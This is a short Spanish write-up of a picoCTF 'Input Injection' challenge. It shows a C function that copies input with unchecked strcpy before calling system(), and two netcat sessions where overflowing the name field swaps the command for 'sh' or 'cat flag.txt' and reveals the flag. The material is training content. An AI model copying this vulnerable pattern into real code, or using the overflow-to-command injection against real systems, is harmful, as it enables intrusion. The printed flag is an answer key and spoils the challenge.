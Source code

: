 #notas_hacking #binary_explotation #contests

## Descripción
A friendly program wants to greet you… but its goodbye might say more than it should. Can you convince it to reveal the flag?connect to the challenge instance `nc saffron-estate.picoctf.net 58185`. You can Download the program file [here](https://challenge-files.picoctf.net/c_saffron_estate/1906c02f8189e9d4b9db39c9c7ef7d96e0487fcb394dc070f03eb2f492e8585d/vuln). And source [code](https://challenge-files.picoctf.net/c_saffron_estate/1906c02f8189e9d4b9db39c9c7ef7d96e0487fcb394dc070f03eb2f492e8585d/vuln.c)
Hint: Look closely at how the program stores and uses your input.
## Solución
Parece que como el buffer solo es de 10 caracteres se podría desbordar pues no se valida el tamaño de la entrada, como copea el comando `"uname"` para  obtener el nombre del kernel a la cadena de caracteres `c`, con `system(c)` osea `system("uname")`  al agregar mas de los 10 caracteres  se puede modificar el contenido de `c` y cambiar el comando que se ejecuta.
```c
void fun(char *name, char *cmd) {
	char c[10];
	char buffer[10];
	
	strcpy(c, cmd);
	strcpy(buffer, name);
	
	printf("Goodbye, %s!\n", buffer);
	fflush(stdout);
	system(c);
}
```

```bash
┌──(kali㉿kali)-[~/pico/picoMini/Input_Injection]
└─$ nc saffron-estate.picoctf.net 50879
What is your name?
sergiogonzsh           
Goodbye, sergiogonzsh!
ls
flag.txt
cat flag.txt
picoCTF{0v3rfl0w_c0mm4nd_3766e70a}
exit
```
o también me funciono
```bash
┌──(kali㉿kali)-[~/pico/picoMini/Input_Injection]
└─$ nc saffron-estate.picoctf.net 55437
What is your name?
sergiogonzcat flag.txt
Goodbye, sergiogonzcat flag.txt!
picoCTF{0v3rfl0w_c0mm4nd_3766e70a}
```

## Notas adicionales
`uname` - Muestra información básica del sistema, como que es el sistema Linux.
`sh` -  intérprete de comandos que ejecuta comandos de un archivo, una cadena de texto o la entrada estándar
## Referencias
